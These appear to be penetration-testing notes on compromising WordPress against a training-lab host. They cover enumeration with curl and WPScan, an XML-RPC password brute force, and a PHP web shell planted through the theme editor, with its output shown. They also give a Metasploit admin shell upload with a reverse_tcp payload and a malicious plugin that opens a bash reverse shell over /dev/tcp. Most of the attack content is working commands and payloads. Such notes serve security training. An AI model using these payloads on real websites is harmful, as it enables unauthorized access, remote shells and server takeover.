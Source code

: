 ### Enumeration

Using CURL:

```bash
curl -s http://blog.inlanefreight.local/robots.txt
curl -s http://blog.inlanefreight.local | grep WordPress
curl -s http://blog.inlanefreight.local/ | grep themes
curl -s http://blog.inlanefreight.local/ | grep plugins
```

WPScan:

```bash
sudo wpscan --url http://blog.inlanefreight.local --enumerate --api-token dEOFB<SNIP>

wpscan --url http://blog.inlanefreight.local --enumerate u,ap,at,cb,dbe --plugins-detection aggressive
```
### Attack

Login Bruteforce:

```bash
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

Code Execution:

Edit existing page `appearance -> Theme Editor` - select the appropriate theme, then select a php page e.g. `404.php`. Add this:

```bash
system($_GET[cmd]);
```

![[Pasted image 20250131151227.png]]

Now have code execution:

```bash
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Metasploit:

```bash
use exploit/unix/webapp/wp_admin_shell_upload
```

Add the details:

```bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   USERNAME                    yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.15.6     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress
```
### Custom Plugin

Create payload:

```bash
<?php

/**
* Plugin Name: Wordpress  Reverse Shell
* Author: NAME
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/x.x.x.x/xxxx 0>&1'")
?>
```

Zip it up:

```bash
zip shell.zip shell.php
```

Then upload it - Click `Plugins -> Add New -> Upload Plugin -> select zip file -> Install Now` then `Active Plugin`.

### Vulnerable Plugins

Look at ExploitDB, or google to find suitable exploits.